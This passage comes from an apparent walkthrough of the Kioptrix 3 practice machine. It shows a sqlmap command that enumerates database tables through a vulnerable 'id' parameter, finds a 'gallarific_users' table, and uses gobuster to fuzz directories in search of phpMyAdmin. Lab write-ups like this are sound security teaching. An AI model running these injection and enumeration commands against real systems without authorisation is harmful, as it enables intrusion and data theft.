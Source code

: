 Command:

```shell
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=\&sort=filename#photos" -p id --tables -D gallery
```

Output:

![Desktop View](/assets/img/posts/2024-06-07-kioptrix-3-boot-to-root/pic21.png)

We have a table named **"gallarific_users"** that's worth checking.

![Desktop View](/assets/img/posts/2024-06-07-kioptrix-3-boot-to-root/pic22.png)

I'm assuming we're encountering this issue due to our privileges.

**So what should we do next?**

If you're well-versed in PHP and MySQL, you're likely familiar with **"phpMyAdmin"**.

>**"phpMyAdmin"** is a free software tool written in PHP, intended to handle the administration of MySQL over the Web.
{: .prompt-info }

If you're not an expert, you can apply directory fuzzing on the website to discover these directories. Many tools can accomplish this; I'll use `gobuster`.

Command:

```shell
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://kioptrix3.com 
```

where:

- `dir` : directory/file enumeration mode
- `-w`  : Path to the wordlist
- `-u`  : The target URL
